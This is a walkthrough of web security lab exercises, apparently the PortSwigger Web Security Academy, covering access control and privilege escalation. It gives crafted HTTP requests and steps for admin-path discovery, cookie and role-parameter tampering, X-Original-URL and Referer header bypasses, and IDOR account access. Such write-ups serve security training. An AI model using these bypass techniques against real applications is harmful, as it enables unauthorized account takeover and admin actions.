 # Access control vulnerabilities and privilege escalation

## Vertical privilege escalation

### Unprotected admin functionality
See `/robots.txt`:
```
User-agent: *
Disallow: /administrator-panel
```
Go to `/administrator-panel` and delete `carlos`


### Unprotected admin functionality with unpredictable URL
See page source:
```javascript
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-gtn1ro');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   topLinksTag.append(' |');
}
```
Go to `/admin-gtn1ro` and delete `carlos`

### User role controlled by request parameter
Login, change cookie `Admin` from `false` to `true` (in Chrome Dev Tools / Application / Cookies),
reload, go to `/admin` and delete `carlos`.

### User role can be modified in user profile
Change email and add `roleid` to JSON payload:
```
POST /my-account/change-email HTTP/1.1
{
  "email": "jan.verner22@gmail.com",
  "roleid": 2
}

---

HTTP/1.1 302 Found
Location: /
Content-Type: application/json
Connection: close
Content-Length: 126

{
  "username": "wiener",
  "email": "jan.verner22@gmail.com",
  "apikey": "82Ods0VFJcVcG8mMKetdWifiyT5VonpW",
  "roleid": 2
}
```

Go to `/admin` and delete `carlos`

### URL-based access control can be circumvented
GET `/` is allowed. Server takes the URL from header `X-Original-URL`:
```
GET / HTTP/1.1
Host: ac791faa1fd9fd48804b72c000ca00ff.web-security-academy.net
...
X-Original-URL: /admin
```
Delete `carlos`:
```
POST /?username=carlos HTTP/1.1
Host: ac791faa1fd9fd48804b72c000ca00ff.web-security-academy.net
...
X-Original-URL: /admin/delete
```

### Method-based access control can be circumvented
Convert POST to GET:
```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: ac2f1f141e3530df806529d300e600eb.web-security-academy.net
Cookie: session=D5Llj1J9TOR3PU6mrFflpDpiyCAqysRX
```

## Horizontal privilege escalation

### User ID controlled by request parameter
Just change `/my-account?id=wiener` to `/my-account?id=carlos` and copy the API key.

### User ID controlled by request parameter, with unpredictable user IDs
Go to Meeting Up blog. Its author is `carlos`. Go to carlos' blog and grab the GUID from the URL
`/blogs?userId=f7336bea-3eb9-4d5b-b6f1-14923e585a21`.

Login as `wiener` and just change `/my-account?id=04918d2a-9880-4e15-8130-497e52eee7a9`
to `/my-account?id=f7336bea-3eb9-4d5b-b6f1-14923e585a21` and copy the API key.

### User ID controlled by request parameter with data leakage in redirect
Login as `wiener`, change `id` to `carlos` and grab the API key from redirect body.

## Horizontal to vertical privilege escalation

### User ID controlled by request parameter with password disclosure
Login and go to `/my-account?id=administrator`. Grab the admin's password from the page source code.

Login as `administrator` and delete `carlos`

## Insecure direct object references (IDOR)

### Insecure direct object references
Download Carlos' transcript from https://ac1e1fa91ef1ec0e8056735500d20042.web-security-academy.net/download-transcript/1.txt.

Get the password from it and login.

## Access control vulnerabilities in multi-step processes

### Multi-step process with no access control on one step
Login as `wiener`
```
POST /admin-roles HTTP/1.1
Host: ac921fa31f6f4ed680af2547005f00a4.web-security-academy.net
...
Cookie: session=8I4G196qkAVO0KK7vBAnqfJUTD9Rlt1e

username=wiener&action=upgrade&confirmed=true
```

### Referer-based access control
Login as `wiener`
```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: ac831f5d1e3ca2f4803137b200e30096.web-security-academy.net
...
Referer: https://ac831f5d1e3ca2f4803137b200e30096.web-security-academy.net/admin
Cookie: session=PwJLSvlmkXzjmWCn5BL6c9w601RH5Zzt
```